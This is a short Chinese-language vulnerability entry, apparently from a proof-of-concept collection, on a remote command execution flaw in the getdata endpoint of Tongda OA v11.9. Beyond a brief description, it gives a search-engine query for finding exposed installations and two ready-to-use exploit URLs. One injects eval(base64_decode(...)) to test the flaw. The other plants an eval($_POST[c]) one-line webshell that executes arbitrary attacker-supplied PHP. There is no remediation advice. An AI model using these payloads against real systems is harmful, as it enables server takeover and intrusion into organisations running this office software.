

通达OA v11.9 getdata 任意命令执行漏洞¶
漏洞描述¶
通达OA v11.9 getdata接口存在任意命令执行漏洞，攻击者通过漏洞可以执行服务器任意命令控制服务器权限
漏洞影响¶
通达OA v11.9
网络测绘¶
app="通达OA网络智能办公系统"
漏洞复现¶
登录页面
验证POC
/general/appbuilder/web/portal/gateway/getdata?activeTab=%E5%27%19,1%3D%3Eeval(base64_decode(%22ZWNobyB2dWxuX3Rlc3Q7%22)))%3B/*&id=19&module=Carouselimage

/general/appbuilder/web/portal/gateway/getdata?activeTab=%E5%27%19,1%3D%3Eeval($_POST[c]))%3B/*&id=19&module=Carouselimage